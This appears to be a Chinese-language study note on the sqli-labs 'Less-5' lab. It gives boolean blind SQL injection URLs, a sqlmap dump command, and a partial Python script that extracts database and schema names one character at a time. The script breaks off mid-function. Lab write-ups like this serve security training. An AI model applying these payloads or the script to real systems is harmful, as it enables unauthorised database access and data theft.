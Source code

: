 ```
http://192.168.3.6/Less-5/?id=1' and ord(substr((select column_name from information_schema.columns limit 0,1),1,1))=ascii('a') where table_schema=database %23


#数据
http://192.168.3.6/Less-5/?id=1' and ord(substr((select username from users limit 0,1),1,1))=ascii('a') %23

#sqlmap：
[sqlmap -u ](http://192.168.3.6/Less-5/?id=1)http://192.168.3.6/Less-5/?id=1 -p id --technique B --v 3 --dump
```

![image](004_第四周—数据库系统功能相关学习/Image_018-1567178982004.jpg)



脚本

```
import requests,string,re,time
def getDatabase(url,r):
	database = ''
	for i in range(1,10):
		for s in letters:
			ur = url+"ord(substr((database()),"+str(i)+",1))=ascii('"+s+"')%23"
			print(ur)
			res = r.get(ur)
			try:
				res = re.search(r'You are in',res.text).group(0)
				database +=s
			except:
				pass
		print('当前数据库为：'+database)
		
def getDatabases(url,r):
	databases = ''
	for i in range(1,10):
		for j in range(0,5):
			for s in letters:
				ur = url+"ord(substr((select schema_name from information_schema.schemata limit
"+str(j)+",1),"+str(i)+",1))=ascii('"+s+"')%23"
				print(ur)
				res = r.get(ur)
				try:
					res = re.search(r'You are in',res.text).group(0)			
					databases +=s
```